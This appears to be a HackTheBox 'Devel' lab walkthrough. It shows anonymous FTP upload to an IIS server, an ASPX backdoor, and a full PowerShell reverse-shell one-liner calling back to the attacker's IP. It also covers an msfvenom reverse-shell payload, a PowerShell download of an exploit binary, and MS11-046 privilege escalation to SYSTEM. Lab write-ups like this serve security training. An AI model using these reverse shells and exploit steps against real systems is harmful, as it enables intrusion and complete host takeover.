





# HackTheBox Devel

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.7:14.5]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.5
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.5 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 21,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.5 -p21,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 02:42 EDT
Nmap scan report for 10.10.10.5
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

### Microsoft ftpd

Access to ftp server and I saw this is the web folder, I tested put permission and I got it.

```
┌──(Hades㉿10.10.14.5)-[0.8:14.6]~/walkthrough/hackthebox/devel
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put leecybersec.com
local: leecybersec.com remote: leecybersec.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
7 bytes sent in 0.00 secs (235.7220 kB/s)
ftp>
```

### Microsoft IIS httpd 7.5

```
### Web Enumeration (80) ############################
                                                                                                                                                                            
[+] Files and directories
gobuster dir -k -u http://10.10.10.5:80 -w /usr/share/seclists/Discovery/Web-Content/common.txt                                                                             
<snip>
===============================================================
/aspnet_client        (Status: 301) [Size: 158] [--> http://10.10.10.5:80/aspnet_client/]
                                                                                         
<snip>

[+] All URLs
<title>IIS7</title>                                                                                                                                                         
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>
```

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Back to file `leecybersec.txt` puted via ftp service.

```
┌──(Hades㉿10.10.14.5)-[0.8:21.8]~/walkthrough/hackthebox/devel
└─$ curl 10.10.10.5/leecybersec.txt  
hades
```

## Foothold

### Aspx Backdoor

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

I upload `backdoor.aspx` to server via ftp service and get a backdoor in the web application.

```
┌──(Hades㉿10.10.14.5)-[0.8:22.5]~/walkthrough/hackthebox/devel
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
<snip>
ftp> put backdoor.aspx
local: backdoor.aspx remote: backdoor.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1663 bytes sent in 0.00 secs (14.2879 MB/s)
ftp>
```



Using `Powershell` to get reverse shell in the server.

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



### Aspx Revershell

Create reverse shell with `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f aspx > shell.aspx
```

Open listener in Kali machine

```
sudo nc -nvlp 443
```

Upload file `shell.aspx` to web server using ftp service and execute this file.

```
curl 10.10.10.5/shell.aspx
```



## Privilege Escalation

### Vulnerability in Ancillary Function Driver

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Enum system info 

```
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

The OS Version is `6.1.7600 N/A Build 7600` have MS11-046: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege.

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)



Download this exploit and compile to binary execution.

```
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Upload `40564.exe` to Devel using ftp service and execute it.

```
c:\inetpub\wwwroot>whoami
whoami
iis apppool\web

c:\inetpub\wwwroot>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Also upload with `fileupload.aspx` or `powershell`.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/40564.exe','C:\Users\Public\shell.exe')"
```

```
c:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\Public

<snip>
01/04/2021  12:10 ��           250.562 shell.exe

               1 File(s)        250.562 bytes
               8 Dir(s)  22.278.094.848 bytes free

c:\Users\Public>shell.exe
shell.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```